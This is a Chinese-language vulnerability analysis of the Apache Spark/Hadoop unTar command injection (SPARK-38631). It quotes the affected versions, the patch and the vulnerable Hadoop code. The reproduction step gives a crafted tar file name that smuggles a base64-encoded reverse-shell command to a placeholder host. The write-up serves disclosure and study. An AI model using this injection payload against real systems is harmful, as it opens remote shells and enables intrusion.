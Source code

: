# Apache Spark unTarUsingTar 命令注入漏洞 SPARK-38631

## 漏洞描述

Apache Spark 是一种用于大数据工作负载的分布式开源处理系统。它使用内存中缓存和优化的查询执行方式，可针对任何规模的数据进行快速分析查询。它提供使用Java、Scala、Python 和 R 语言的开发 API，支持跨多个工作负载重用代码—批处理、交互式查询、实时分析、机器学习和图形处理等。当Spark任务的文件名可控时，`Utils.unpack`采用命令拼接的形式对tar文件进行解压，存在任意命令注入的风险。这是源于Hadoop中unTar函数存在问题，在其执行shell命令之前未正确转义文件名，直接拼接命令导致任意命令注入。

## 漏洞影响

Apache Spark 3.1.2, 3.2.1, 3.3.0

## 漏洞复现

我们查看官方的修复补丁

![img](../../../.vuepress/public/img/1649056170245-0002d819-b071-4ae4-b542-a5b949a68a2f.png)

![img](../../../.vuepress/public/img/1649056263083-dd43291e-4350-4e7b-9d5f-898989fc9da7.png)

官方修复针对.tar后缀的压缩包调用了新增的unTarUsingJava函数来进行处理，我们下载存在漏洞的版本看一下漏洞位置

```php
hadoop-common-2.7.4.jar!/org/apache/hadoop/fs/FileUtil.class
```

![img](../../../.vuepress/public/img/1649056439530-2fa3df48-184b-4eac-ac13-01bf51fd9490.png)

可以看到漏洞主要出现在 Linux对文件的解压处理中

```php
public static void unTar(File inFile, File untarDir) throws IOException {
        if (!untarDir.mkdirs() && !untarDir.isDirectory()) {
            throw new IOException("Mkdirs failed to create " + untarDir);
        } else {
            boolean gzipped = inFile.toString().endsWith("gz");
            if (Shell.WINDOWS) {
                unTarUsingJava(inFile, untarDir, gzipped);
            } else {
                unTarUsingTar(inFile, untarDir, gzipped);
            }

        }
    }
```

这里我们控制压缩tar文件的文件名就可以进行命令注入

```php
private static void unTarUsingTar(File inFile, File untarDir, boolean gzipped) throws IOException {
        StringBuffer untarCommand = new StringBuffer();
        if (gzipped) {
            untarCommand.append(" gzip -dc '");
            untarCommand.append(makeShellPath(inFile));
            untarCommand.append("' | (");
        }

        untarCommand.append("cd '");
        untarCommand.append(makeShellPath(untarDir));
        untarCommand.append("' ; ");
        untarCommand.append("tar -xf ");
        if (gzipped) {
            untarCommand.append(" -)");
        } else {
            untarCommand.append(makeShellPath(inFile));
        }

        String[] shellCmd = new String[]{"bash", "-c", untarCommand.toString()};
        ShellCommandExecutor shexec = new ShellCommandExecutor(shellCmd);
        shexec.execute();
        int exitcode = shexec.getExitCode();
        if (exitcode != 0) {
            throw new IOException("Error untarring file " + inFile + ". Tar process exited with exit code " + exitcode);
        }
    }
```

创建Tar文件, 在使用 addArchive执行解压就可以注入恶意命令

```php
touch '1\|{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}\|1.tar'
```

![img](../../../.vuepress/public/img/1649060584363-166e77a0-eafc-4398-a438-b84267b9b61a.png)